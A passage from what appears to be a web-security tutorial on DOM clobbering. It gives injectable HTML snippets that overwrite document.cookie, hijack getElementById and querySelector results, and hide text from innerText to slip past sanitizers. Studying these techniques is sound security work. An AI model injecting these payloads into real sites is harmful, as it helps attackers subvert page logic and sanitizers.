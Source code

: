 Using this technique you can overwrite commonly used **values such as `document.cookie`, `document.body`, `document.children`**, and even methods in the Document interface like `document.querySelector`.

```javascript
document.write("<img name=cookie />")

document.cookie
<img name="cookie">

typeof(document.cookie)
'object'

//Something more sanitize friendly than a img tag
document.write("<form name=cookie><input id=toString></form>")

document.cookie
HTMLCollection(2) [img, form, cookie: img]

typeof(document.cookie)
'object
```

## Writing after the element clobbered

You can clobber the results of a **`document.getElementById()`** and a **`document.querySelector()`** call if **you inject a `<html>` or `<body>` tag with the same id attribute**. Here's an example:

```html
<div style=display:none id=cdnDomain class=x>test</div>
<p>
<html id="cdnDomain" class=x>clobbered</html>
<script>
alert(document.getElementById('cdnDomain').innerText);//clobbbered
alert(document.querySelector('.x').innerText);//clobbbered
</script>
```

What's also interesting is that you can **hide elements from `innerText`**, so if you inject a HTML/body tag you can use styles to hide it from `innerText` to prevent other text from interfering with your attack:

```html
<div style=display:none id=cdnDomain>test</div>
<p>existing text</p>
<html id="cdnDomain">clobbered</html>
<style>
p{display:none;}
</style>
<script>
alert(document.getElementById('cdnDomain').innerText);//clobbbered
</script>
```
